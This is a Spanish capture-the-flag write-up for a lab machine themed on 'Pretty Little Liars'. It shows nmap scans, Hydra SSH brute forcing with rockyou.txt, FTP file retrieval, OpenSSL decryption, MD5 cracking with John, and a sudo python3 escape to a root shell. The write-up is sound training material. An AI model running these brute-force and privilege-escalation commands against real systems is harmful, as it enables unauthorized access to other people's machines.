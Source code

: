 ```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Fácil  📅 Fecha de creación: 22/09/2024'
---
```


# Pequeñas Mentirosas

[Descargar archivo](https://mega.nz/file/oqs1hRDK#0kxvm35L2zRoAJiwDw0OSA4BvGycwqu0F0gQ2PdPwj4)

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.21.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen.png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen (2).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP**, **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (3).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos que puede ser un usuario llamado **A** y tiene sentido ya que es un personaje de la serie de **Pequeñas Mentirosas**.&#x20;

<figure><img src="../.gitbook/assets/imagen (4).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><img src="../.gitbook/assets/imagen (5).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **russoski**. Sabiendo esto, nos conectamos a través de **FTP** al usuario con el comando:

```bash
ftp a@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (6).png" alt=""><figcaption></figcaption></figure>

Al listar el contenido del directorio, no encontramos ningún archivo. Es importante recordar que los archivos asociados con los servidores se almacenan en el directorio `/srv`. En el caso de un servidor **FTP**, los archivos específicos que se desean compartir deben ubicarse en `/srv/ftp`. Por lo tanto, nos ubicaremos en ese directorio.

```bash
cd /srv/ftp
```

<figure><img src="../.gitbook/assets/imagen (7).png" alt=""><figcaption></figcaption></figure>

Nos descargamos a nuestro equipo esos archivos.&#x20;

```bash
mget *
```

Indagamos poco a poco nos llama la atención sobre los ficheros de texto denominados `retos`.

<figure><img src="../.gitbook/assets/imagen (8).png" alt=""><figcaption></figcaption></figure>

Sabiendo eso tenemos que desencriptar el archivo `cifrado_aes.enc` con la clave del archivo `clave_aes.txt` con el comando:

```bash
openssl enc -d -aes-128-cbc -in cifrado_aes.enc -out desencriptado_aes.txt -k thisisaverysecretkey!
```

El archivo resultante contiene:

<figure><img src="../.gitbook/assets/imagen (9).png" alt=""><figcaption></figcaption></figure>

No contiene nada relevante seguimos con el archivo `retos_asimetrico.txt` con el comando:

```bash
openssl pkeyutl -decrypt -in mensaje_rsa.enc -out desencriptado_rsa.txt -inkey clave_privada.pem
```

Pero nos vuelve a parecer el mismo resultado:

<figure><img src="../.gitbook/assets/imagen (10).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un archivo `hash_spencer.txt` posiblemente **spencer** sea un usuario  por lo que a lo mejor ese **hash** es una contraseña. La podemos descifrar de dos maneras: la primera con **John** y la segunda con **Hydra** suponiendo que **spencer** es un usuario.

```bash
john --format=raw-md5 hash_spencer.txt
```

<figure><img src="../.gitbook/assets/imagen (11).png" alt=""><figcaption></figcaption></figure>

```bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

<figure><img src="../.gitbook/assets/imagen (12).png" alt=""><figcaption></figcaption></figure>

```bash
ssh spencer@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (13).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (14).png" alt=""><figcaption></figcaption></figure>

Se ha identificado que podemos ejecutar `/usr/bin/python3` con permisos de `sudo`. Para escalar privilegios, utilizaremos [GTFObins](https://gtfobins.github.io/gtfobins/python/), que proporciona una lista de comandos que se pueden ejecutar utilizando Python.

Esto nos permitirá aprovechar el entorno de Python para ejecutar código que nos ayude a obtener acceso a niveles más altos de privilegio en el sistema.

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```

<figure><img src="../.gitbook/assets/imagen (15).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que hemos conseguido tener los máximos privilegios.&#x20;

> **Nota**: los demás archivos son para despistar.
